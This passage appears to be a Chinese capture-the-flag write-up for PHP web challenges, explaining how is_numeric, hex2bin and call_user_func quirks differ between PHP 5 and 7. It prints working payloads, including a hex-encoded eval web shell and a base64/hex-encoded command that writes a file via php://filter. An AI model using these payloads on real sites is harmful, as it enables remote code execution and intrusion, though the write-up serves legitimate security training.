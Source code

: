 我们可以手动爆破或通过bp，猜flag的最后一位（不演示了）

------

### web-102

考察call_user_func函数和php版本特性

```
$a='<?=`cat *`;';       //为什么用这个，主要是因为编码后带e,或者是编码后全部是数字
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //这里直接用去掉=的base64
//输出   5044383959474e6864434171594473
带e会被当做科学计数法，而base64去掉等号，不影响解码
bin2hex把ascii码转为16进制

payload：
php5中is_numeric函数认识16进制数，而php7这个函数不识别16进制数，
hex2bin将16进制转换为ascii码，<?php eval($_POST[1]);?>的16进制编码为

0x3c3f706870206576616c28245f504f53545b315d293b3f3e
php5:
v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e&v3=1.php
post:v1=hex2bin
之后访问1.php

php7:
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php 
post: v1=hex2bin
需要随便填充一些数字，从第二个字符开始截取的(也就是第三个，是从0开始的)
之后访问1.php

```

------



### web-103

跟上题做法一模一样

------

### web-104
